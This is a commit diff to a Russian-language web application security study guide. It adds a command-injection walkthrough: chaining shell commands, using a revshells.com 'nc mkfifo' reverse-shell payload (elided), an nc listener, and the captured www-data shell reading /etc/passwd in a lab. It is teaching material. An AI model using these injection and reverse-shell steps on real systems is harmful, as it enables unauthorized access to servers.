

Before and after one commit to Elizarspbspb/AppSec, a Markdown page: wasa/wasa.md, 3 parts joined by grey strips. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Continue CMD inject

````diff
--- a/wasa/wasa.md
+++ b/wasa/wasa.md
@@ -53,11 +53,11 @@ https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Applicatio
 
 Первые два работают по аналогии с HTML Injection, а `DOM-based` - это `XSS`, при которой веб-сайт не возвращает полезную нагрузку в ответе. То есть эксплутация происходит только на стороне клиента. **XSS встречается крайне часто**.
 
-### 3. CSRF (Cross-Site Request Forgery)
+### 2.3 CSRF (Cross-Site Request Forgery)
 `CSRF` - это межсайтовая подделка запросов. Через данную уязвимость злоумышленник может вынудить пользователей совершить действие на веб-сайте без их согласия, например, удалить свой же аккаунт, перевести деньги и так далее.
 **Встречается достаточно часто**.
 
-## Мисконфиги (Misconfiguration)
+## 3 Мисконфиги (Misconfiguration)
 `Мисконфиги` - это уязвимости, возникающие вследствие ошибок в настройках безопасности приложений. Практически всегда являются человеческой ошибкой - администратор веб-сервера мог установить какой-то софт и забыть сменить стандартные данные входа. В таком случае злоумышленнику не составит труда найти эти данные в интернете и авторизоваться, например, с правами админа.
 
 Веб-сервера apache2 настроен так, что автоматически запускается вместе с операционной системой. Проверить работоспособность веб-сервера можно через следующую команду в терминале:
@@ -79,10 +79,10 @@ $ nc-nlvp 1234
 
 Загрузив реверс reverse-shell на сервер и запустив его на сервере мы получим доступ к серверу из хоста клиента.
 
-## Обход авторизации (Authentication Bypass)
+## 4 Обход авторизации (Authentication Bypass)
 `Обход авторизации` - это несанкционированный доступ к различным ресурсам веб-сервера. То есть непривилегированный пользователь может получить доступ к контенту, который изначально не был предназначен для него.
 
-## IDOR
+## 5 IDOR
 `IDOR` (Insecure Direct Object References "Небезопасная прямая ссылка на объект").
 
 Как правило у каждого веб-приложения есть свои `объекты` (которые реализовываются через сущности). И пользователи могут обращаться к этим объектам. Предположим, что есть веб-сайт и на нём реализована служба поддержки. Пользователь переходит на страницу, где можно открыть обращение в тех. поддержку. Он описывает в веб-форме свою проблему и нажимает кнопку отправить. На бэкэнде записывается его обращение и отправляется в базу данных:
@@ -138,4 +138,38 @@ whois наша_цель
 ```
 whois $target
 ```
-Очевидно, что нужно внедрять команды через переменную target. Попробуем команду whoami:
+Очевидно, что нужно внедрять команды через переменную target.
+
+В Linux Вы можете запускать сразу несколько команд по очереди через точку с запятой - `;`, а также символы `&&` (И) и `||` (ИЛИ).
+
+Например, `whoami` вместе с `pwd`:
+```
+$ whoami; pwd
+student
+/home/student
+```
+
+Воспользуемся сервисом `https://www.revshells.com/`. С его помощью нам не нужно писать свой `пэйлоад` - он сделает всё за нас. Достаточно указать наш IP-адрес и порт.
+
+Выбираем вкладку `"nc mkfifo"` и готовый `пэйлоад` - `rm /tmp...` . Чтобы получить обратную оболочку, нам нужно поставить листенер `nc`.
+
+Листенер запущен, теперь копируем `пэйлоад` -  `rm /tmp...` и вставляем его в форму на сайте...
+
+В литсенере мы получили удалённый доступ от лица веб-сервера (www-data):
+```
+$ nc-nlvp 9898
+listening on [any] 9898 ...
+connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45500
+sh: 0: can't access tty; job control turned off
+$ whoami; id
+www-data
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+$ ls /home/student/
+ls: cannot open directory '/home/student/': Permission denied
+$ cat /etc/passwd
+root:x:0:0:root:/root:/usr/bin/zsh
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+```
+
+## 7 PHP Code Injection
````
Also changed, not shown: other parts of wasa/wasa.md (+11 -11 lines).
